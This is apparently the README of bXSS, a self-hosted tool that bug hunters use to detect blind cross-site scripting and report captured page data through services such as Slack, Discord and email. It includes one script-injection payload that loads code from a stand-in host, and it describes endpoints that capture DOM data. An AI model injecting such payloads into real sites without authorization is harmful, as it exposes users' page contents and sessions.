 # [bXSS](https://github.com/LewisArdern/bXSS)

<!-- prettier-ignore-start -->
<a href="https://codeclimate.com/github/LewisArdern/bXSS/maintainability"><img src="https://api.codeclimate.com/v1/badges/a8e30934a0be1952891c/maintainability" /></a>
<a href="https://lgtm.com/projects/g/LewisArdern/bXSS/context:javascript"><img alt="Language grade: JavaScript" src="https://img.shields.io/lgtm/grade/javascript/g/LewisArdern/bXSS.svg?logo=lgtm&logoWidth=18"/></a>
<!-- prettier-ignore-end -->

bXSS is a utility which can be used by bug hunters and organizations to identify [Blind Cross-Site Scripting](https://ardern.io/2017/12/10/blind-xss/).

bXSS supports the following:

- [Intrusive Levels](./Images/intrusion.jpg)
- [Email](./Images/email.jpg)
  - [Auto report via /.well-known/security.txt](./Images/securitytxt.jpg)
- [Twilio](./Images/sms.jpg)
- [Slack](./Images/slack.jpg)
- [Webex Teams](./Images/cisco.jpg)
- [Discord](./Images/discord.jpg)
- [Twitter](./Images/twitter.jpg)
- [Github](./Images/github.JPG)
- [Payload Generation](./Images/payloads.jpg)
- [Save locally](./Images/file.jpg)

# Requirements

## Necessary

- Server you control
- Usable domain
- Node.js and Express.js

## Optional

- [Gmail Account](https://gmail.com)
- [Twilio Account](https://www.twilio.com/sms)
- [Slack Token](https://api.slack.com/docs/token-types)
- [Cisco Token](https://developer.webex.com/docs/api/v1/people/get-my-own-details)
- [Discord Token](https://github.com/reactiflux/discord-irc/wiki/Creating-a-discord-bot-&-getting-a-token)
- [Github Access Token](https://github.com/settings/tokens)
- [Twitter Developer Account](https://developer.twitter.com/en/apply/user)
- [SSL/TLS Certificate](https://letsencrypt.org)

# Step-Up

## Default

- cd bXSS && npm install
- Update The Configuration || Environment Variables
  - Domain
    - config.url = Domain intended for use e.g ardern.io
    - config.port.http = Port to run the Node.js app e.g 80
- Rename configExample.js to config.js

## Configuring Services

Services are optional, by default bXSS will save a markdown file to disk. If you don't want to use any service documented below, just delete the service from the config.

- Twilio
  - config.twilio.accountSid = [Twilio SID](https://support.twilio.com/hc/en-us/articles/223136607-What-is-an-Application-SID)
  - config.twilio.authToken = [Twilio Auth Token](https://support.twilio.com/hc/en-us/articles/223136027-Auth-Tokens-and-how-to-change-them)
  - config.twilio.to = ['+447500000000','+0018056826043'] Your telephone number(s)
  - config.twilio.from = [Twilio telephone number](https://support.twilio.com/hc/en-us/articles/223136207-Getting-started-with-your-new-Twilio-phone-number)
- Slack
  - config.slack.token = [Slack Token](https://api.slack.com/docs/token-types)
  - config.slack.channel = [Channel you want to send the report to](https://get.slack.help/hc/en-us/articles/201402297-Create-a-channel)
  - Slack permissions required [channels:read](https://api.slack.com/scopes/channels:read) and [chat:write](https://api.slack.com/scopes/chat:write)
- Cisco
  - config.ciscoSpark.token = [Cisco Token](https://developer.webex.com/docs/api/v1/people/get-my-own-details)
  - config.ciscoSpark.sparkRoom = ['email1@domain.com','email2@domain.com']
- Discord
  - Steps to create a bot:
    - Visit https://discordapp.com/developers/applications/
    - Create a new application (e.g bXSSForCompany)
    - Make a note of your CLIENT ID
    - Select 'Bot'
      - Choose a USERNAME and press 'Click to Reveal Token' (copy the token)
    - Visit the following URL (update with your CLIENT ID) https://discordapp.com/oauth2/authorize?&client_id=YOUR_CLIENT_ID&scope=bot&permissions=2048
    - Select the server you want your bot to join and authorize
    - Update the following values below for the bot to post to the 'text channel' e.g ('general')
  - config.discord.token = 'your bot token'
  - config.discord.channel = 'channel you want it to join, e.g general'
- Twitter
  - config.twitter.consumer_key = API Key
  - config.twitter.consumer_secret = API Secret Key
  - config.twitter.access_token_key = Application Access Token
  - config.twitter.access_token_secret = Application Access Token Secret
  - Permissions (Write)
  - config.twitter.recipient_id = Twitter User ID, which can be found [here](https://twitter.com/settings/your_twitter_data)
- Gmail
  - config.gmail.user = Gmail Username
  - config.gmail.pass = Gmail Password
  - config.gmail.to = ['email1@domain.com','email2@domain.com'] Where you want to send the emails
  - config.gmail.from = Who sent the message, usually Gmail Username
- Github
  - [config.github.accessToken](https://github.com/settings/tokens) = ''
  - config.github.repo = '' an example is lewisardern/bXSS

## Setting Up HTTPS

Consider using a [reverse proxy](https://www.nginx.com/resources/glossary/reverse-proxy-server/), for example in [NGINX](https://pastebin.com/nCVSh5iv), but if you want to configure HTTPS using express, follow the steps below:

- Obtain a let's Encrypt cert
  - [Manual](https://gist.github.com/davestevens/c9e437afbb41c1d5c3ab)
  - [certbot](https://medium.com/@yash.kulshrestha/using-lets-encrypt-with-express-e069c7abe625)
- Using Node.js
  - Update Configuration
    - config.letsEncrypt.TLS = true;
    - config.letsEncrypt.publicKey = \$Path/fullchain.pem
    - config.letsEncrypt.privateKey = \$Path/privkey.pem
    - config.letsEncrypt.ca = \$Path/chain.pem
    - config.port.https = 443

## Starting The Application

Once you have configured the above, simply start the server with any available utility at the application root directory:

- node app.js
- nodemon app.js
- pm2 start app.js

# Using

Once the application is functional, you would just identify sites you are authorized to test and start to inject different payloads that will attempt to load your resource, the easiest example is:

```
"><script src="https://example.com/m"></script>
```

The application has five core functions to utilize:

- POST - /m (Captures DOM information)
- GET - /m (Loads the payload)
- GET - /mH (Captures HTTP interactions)
- Payloads - /payloads (Gives payloads you can use for testing blind xss)
- Everything else - Loads alert(1)

# Contribute?

If you like the project, feel free to contribute or if you want to suggest improvements or notice any problems, file a [issue](https://github.com/LewisArdern/bXSS/issues).
